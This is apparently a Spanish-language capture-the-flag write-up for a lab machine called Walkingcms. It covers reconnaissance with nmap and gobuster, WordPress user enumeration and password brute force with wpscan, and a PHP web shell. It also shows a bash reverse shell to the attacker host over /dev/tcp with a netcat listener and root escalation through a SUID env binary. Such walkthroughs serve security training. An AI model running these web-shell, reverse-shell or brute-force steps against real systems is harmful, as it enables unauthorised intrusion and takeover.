

❄️ Máquina: Walkingcms
📅 Publicado el 10/09/2025 | Categoría: LINUX
📝 Descripción
Reto en el cual tendremos que hacer fuerza bruta en un wordpress, crear una rever shell y finalizar con una
escalada de privilegios a root.
🔍 Reconocimiento
sudo nmap -p- -open -O -sSC -min-rate 5000 -n -Pn 172.17.0.2
PORT STATE SERVICE
80/tcp open http
|_http-title: Apache2 Debian Default Page: It works
Para conocer mas de HTTP:
sudo nmap -p80 -O -sV 172.17.0.2
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.57 ((Debian))
MAC Address: 02:42:AC:11:00:02 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
🌐 Enumeración Web
gobuster dir -u http://172.17.0.2/
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
-x php,html,txt -t 50
/index.php (Status: 301) [Size: 0] [-> http://172.17.0.2/wordpress/]
/wp-content (Status: 301) [Size: 323] [-> http://172.17.0.2/wordpress/wp-content/]
/license.txt (Status: 200) [Size: 19903]
/wp-includes (Status: 301) [Size: 324] [-> http://172.17.0.2/wordpress/wp-includes/]
/wp-login.php (Status: 200) [Size: 7765]
/readme.html (Status: 200) [Size: 7425]
/wp-trackback.php (Status: 200) [Size: 136]
/wp-admin (Status: 301) [Size: 321] [-> http://172.17.0.2/wordpress/wp-admin/]
/xmlrpc.php (Status: 405) [Size: 42]
El directorio /wp-admin nos importa porque en este podremos realizar fuerza bruta.
📦wpsacan
wpscan --url http://172.17.0.2/wordpress/ --enumerate u
[i] User(s) Identified:
[+] mario
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt --password-attack wp-login
[!] Valid Combinations Found:
| Username: mario, Password: love
Ya tenenemos acceso
ahora modificamos el archivo fuctions.php para devolvernos una shell o se puede crear otro archivo que contenga(entre las etiquetas de php):
system($_GET['cmd']);
A continuación nos enviamos la Reverse shell a nuestra máquina atacante, poniéndonos antes en escucha por el puerto 443 o el que prefieran con netcat:
sudo nc -nlvp 443
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/shell.php?cmd=bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261"
👑 Escalada a root
Miramos los premisos SUID
www-data@812b6b56379f:/$ find / \-perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/mount
/usr/bin/env
/usr/bin/chsh
www-data@812b6b56379f:/$ env /bin/sh -p
whoami
root
🏁 Resultado
Acceso total a la máquina con privilegios de root